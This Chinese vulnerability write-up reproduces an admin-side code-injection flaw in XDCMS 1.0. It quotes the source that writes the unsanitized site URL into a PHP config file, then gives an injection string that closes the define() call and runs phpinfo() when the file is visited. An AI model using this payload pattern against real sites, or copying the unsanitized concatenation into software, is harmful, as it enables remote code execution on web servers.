 XDCMS 1.0 后台配置文件getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

![](./.resource/XDCMS1.0后台配置文件getshell/media/rId24.png)

刚看到这里的时候，这里的网站地址:`http://127.0.0.5`我很好奇是干嘛的，因为它现在写的是127.0.0.5而网站的ip与这个无关，去翻翻源码看看这玩意是干嘛的

    if($tag=='config'){
        //判断url是否以/结尾
        $urlnum=strlen($info['siteurl'])-1;
        if(substr($info['siteurl'],$urlnum,1)!="/"){
            showmsg(C("update_url_error"),"-1");
        }//end

        $cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
        $cmsurl="<?phpn define('CMS_URL','".$info['siteurl']."');n define('TP_FOLDER','".$info['template']."');n define('TP_CACHE',".$info['caching'].");n?>";
        creat_inc($cms,$cmsurl);

点击保存后，网站获取siteurl没有经过过滤，就拼接到cmsurl字符串变量里去了，然后根据这个cmsurl生成配置文件

配置文件：

    <?php
     define('CMS_URL','http://127.0.0.5/');
     define('TP_FOLDER','dccms');
     define('TP_CACHE',false);
    ?>

这里我们可以构造siteurl：

    hello');?><?php phpinfo();?>

点击保存后，我们去查看一下该配置文件：

    <?php
     define('CMS_URL','hello');?><?php phpinfo();?>';
     define('TP_FOLDER','dccms');
     define('TP_CACHE',false);
    ?>

这里的配置文件内容生成外部参数可控，导致了可直接getshell

访问该配置文件页面：`http://www.0-sec.org/system/xdcms.inc.php`

![](./.resource/XDCMS1.0后台配置文件getshell/media/rId25.png)
